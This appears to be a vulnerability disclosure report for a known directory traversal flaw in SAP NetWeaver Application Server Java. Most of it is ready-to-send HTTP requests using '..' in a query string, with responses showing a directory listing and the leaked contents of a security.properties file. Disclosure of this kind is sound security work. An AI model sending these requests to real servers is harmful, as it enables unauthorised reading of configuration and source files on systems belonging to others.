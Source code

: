 

# Directory traversal in SAP NetWeaver

## Summary

Directory traversal vulnerability in scheduler/ui/js/ffffffffbca41eb4/UIUtilJavaScriptJS in SAP NetWeaver Application Server Java 7.5 allows remote attackers to read arbitrary files via a ``..`` in the query string,.


## Steps To Reproduce

Use the following requests in BURP Repeater 

Read `..` folder
```
GET /scheduler/ui/js/ffffffffbca41eb4/UIUtilJavaScriptJS?/../ HTTP/1.1
Host: $DOMAIN
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip
```
**Response**
```
HTTP/1.1 200 OK
Date: Sun, 16 May 2021 02:19:39 GMT
Server: Apache
TRUNCATED

api-link
black
help
META-INF
ui
version.txt
WEB-INF

```

Read file WEB-INF/security.properties

**Request** 
```
GET /scheduler/ui/js/ffffffffbca41eb4/UIUtilJavaScriptJS?/../WEB-INF/security.properties HTTP/1.1
Host: $DOMAIN
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```
**Response**
```
HTTP/1.1 200 OK
Date: Sun, 16 May 2021 02:24:02 GMT
Server: Apache
etag: ffffffffbe8e19df-gzip
expires: Mon, 17 May 2021 02:24:02
last-modified: Sat, 15 May 2021 02:24:02
content-type: text/javascript
Content-Length: 3114
strict-transport-security: max-age=31536000; includeSubDomains
TRUNCATED 

# Authentication declarations
#
# path.<name>=<uri>
# auth.<name>=<authentication-required>
#
# Longest match always wins, order is not important

# By default everything requires a username
path.root=/*
auth.root=user

# Except the login page, which is public
path.ui.login=/ui/login/*
auth.ui.login=public

# The soap JSPs are public
path.ui.soap=/ui/soap/*
auth.ui.soap=public

path.ui.jee.login=/j_security_check
auth.ui.jee.login=public

TRUNCATED

# The remote shell servlet does its own authentication
path.shell=/api-shell
auth.shell=public

# The iPhone servlets do their own authentication
path.iphone=/api-iphone
auth.iphone=public
path.iphone.jobfile=/api-iphone/jobfile
auth.iphone.jobfile=public

# The APNS servlet does its own authentication
path.apns=/api-apns
auth.apns=public

# The remote shell servlet does its own authentication
path.apiremote=/api-remote
auth.apiremote=public

# The SOAP Request servlet does its own authentication
path.soap=/api-soap
auth.soap=public

# The file get servlet does its own authentication
path.jgetfile=/api-jgetfile
auth.jgetfile=public

# Allow the version.txt file to be retrieved without requiring a logon.
path.version=/version.txt
auth.version=public

# The tab api does its own authentication
path.api.tab=/api-tab
auth.api.tab=public

# The publish api does its own authentication
path.api.publish=/api-publish
auth.api.publish=public

# Allow public access to j_security_check - which websphere passes through our security filter
path.j_security_check=/j_security_check
auth.j_security_check=public

# Allow public access to sap_j_security_check - for netweaver installations, this is required when users must change password when expired
path.sap_j_security_check=/sap_j_security_check
auth.sap_j_security_check=public

# Allow public access to /ChangePassword - for netweaver installations, this is required when users must change password when expired (container redirects to this url).
path.sap_change_password=/ChangePassword
auth.sap_change_password=public

# Allow public access to R2W interfac - does its own authentication
path.ipi.r2w=/ipi-r2w
auth.ipi.r2w=public

# Allow public access to the JavaDoc (APIDOCS)
path.help.apidocs=/help/apidocs/*
auth.help.apidocs=public

responseprefix=/auth/
respond.httpresponsecode=httpresponsecode

```


## Impact
An attacker could read local files on the web server that they would normally not have access to, such as the application source code or configuration files containing sensitive information on how the website is configured.


### Supporting Material/References:
* https://www.cvedetails.com/cve/CVE-2017-12637/
* https://nvd.nist.gov/vuln/detail/CVE-2017-12637



